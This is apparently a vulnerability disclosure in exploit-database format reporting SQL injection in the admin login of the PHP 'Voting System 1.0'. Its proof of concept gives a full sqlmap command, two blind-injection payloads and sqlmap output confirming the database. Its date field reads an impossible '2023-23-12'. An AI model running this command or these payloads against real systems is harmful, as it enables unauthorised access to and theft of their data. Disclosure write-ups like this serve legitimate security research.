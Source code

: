# Voting_System-SQL_Injection-1
+ **Exploit Title:** Voting_System-SQL_Injection-1
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/voting-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/02/VOTING_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-

## References: 

## Description:
Voting System 1.0 allows SQL Injection via parameter 'username' in "/votesystem/admin/".
Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the admin login page: "http://localhost/votesystem/admin/"
+ Fill the username and password then click 'Sign In' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Use sqlmap to exploit. In sqlmap, use 'username' parameter to dump the database. 
```
sqlmap -r r.txt -p username --risk 3 --level 5 --threads 1 --random-agent tamper=between, randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=test' OR NOT 6416=6416-- SOwv&password=test&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test' AND (SELECT 3547 FROM (SELECT(SLEEP(5)))OFWl)-- funY&password=test&login=
---
[18:54:43] [INFO] testing MySQL
[18:54:44] [INFO] confirming MySQL
[18:54:44] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[18:54:44] [INFO] fetching current database
[18:54:44] [INFO] resumed: votesystem
current database: 'votesystem'
```

+ current database: `votesystem`
![1](https://github.com/h4md153v63n/CVEs/assets/5091265/09972f6e-8875-4c94-b64d-3cebf4ff1ab8)
